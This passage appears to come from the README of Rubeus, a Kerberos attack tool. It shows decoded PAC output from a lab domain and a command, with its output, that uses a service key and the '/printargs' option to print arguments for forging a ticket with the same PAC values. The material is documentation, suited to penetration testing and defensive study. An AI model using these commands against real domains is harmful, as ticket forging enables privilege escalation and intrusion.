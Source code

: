           BadPasswordCount     : 0
          UserId               : 1109
          PrimaryGroupId       : 513
          GroupCount           : 1
          Groups               : 513
          UserFlags            : (32) EXTRA_SIDS
          UserSessionKey       : 0000000000000000
          LogonServer          : PDC1
          LogonDomainName      : RUBEUS
          LogonDomainId        : S-1-5-21-3237111427-1607930709-3979055039
          UserAccountControl   : (16) NORMAL_ACCOUNT
          ExtraSIDCount        : 1
          ExtraSIDs            : S-1-18-2
          ResourceGroupCount   : 0
        ClientName             :
          Client Id            : 20/07/2021 21:59:39
          Client Name          : ccob
        UpnDns                 :
          DNS Domain Name      : RUBEUS.GHOSTPACK.LOCAL
          UPN                  : ccob@rubeus.ghostpack.local
          Flags                : 0
        ServerChecksum         :
          Signature Type       : KERB_CHECKSUM_HMAC_MD5
          Signature            : 79A2DC5595C76FA85155B4C65B3A0EE1 (VALID)
        KDCChecksum            :
          Signature Type       : KERB_CHECKSUM_HMAC_SHA1_96_AES256
          Signature            : DA57618BB48EA56371E374B1 (UNVALIDATED)

If the PAC can be decrypted (by using a user-to-user request or by passing the `/servicekey`) is it possible to print the arguments required to forge a ticket containg the same PAC values:

    C:\Rubeus>Rubeus.exe asktgs /service:roast/me /printargs /servicekey:9FFB199F118556F579B415270EE835005227FCBF29331DAC27C4397AC353F52B /ticket:doIF9DCCBfCgAwIBBaEDAg...(snip)...cGFjay5sb2NhbA==

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGS

    [*] Using domain controller: PDC1.rubeus.ghostpack.local (192.168.71.80)
    [*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

          doIF6jCCBeagAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          AgECoQ0wCxsFcm9hc3QbAm1l
